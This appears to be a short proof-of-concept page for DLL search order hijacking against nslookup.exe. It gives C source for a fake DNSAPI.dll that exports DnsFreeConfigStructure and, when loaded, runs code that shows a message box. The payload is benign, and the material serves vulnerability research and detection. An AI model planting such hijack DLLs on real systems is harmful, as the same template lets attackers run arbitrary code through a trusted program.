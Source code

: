 DLL Search Order Hijacking via `DnsFreeConfigStructure` function in the DLL `DNSAPI.dll` of the executable `nslookup.exe`. 

```c
#include <windows.h>

int Main() {
    MessageBoxW(0, L"DLL Search Order Hijacking is present", L"DLL Search Order Hijacking", 0);
    return 1;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)Main, NULL, NULL, NULL);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

__declspec(dllexport) void DnsFreeConfigStructure() { Main(); }
```
